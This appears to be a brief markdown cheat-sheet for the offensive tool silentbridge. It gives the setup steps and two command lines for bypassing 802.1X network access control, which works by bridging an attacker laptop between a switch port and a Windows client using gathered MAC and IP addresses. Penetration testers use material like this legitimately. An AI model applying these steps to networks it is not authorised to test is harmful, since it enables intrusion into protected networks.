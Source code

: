 ### source
https://github.com/s0lst1c3/silentbridge  

### required informations and steps
```
disable DHCP and Network-Manager for used interfaces

upstream > attacker notebook to NAC ethernet port - example <interface1>  
physical > attacker notebook to windows client - example <interface2>  

get RADIUS switch MAC address (wireshark filter for eap) - example <mac1>  

get IP address of windows client - example <ip>  
get MAC address of windows client - example <mac2>  
get MAC address of default gateway - example <mac3>  
C> ipconfig /all  
```

### start silent bridge and listen
```
$> ./silentbridge --create-bridge --upstream <interface1> --phy <interface2> --sidechannel <interface1>
```

### start interactive mode
```
$> ./silentbridge --add-interaction --gw-mac <mac3> --client-ip <ip> --upstream <interface1> --client-mac <mac2> --phy <interface2> --switch-mac <mac1> --sidechannel <interface1>
```

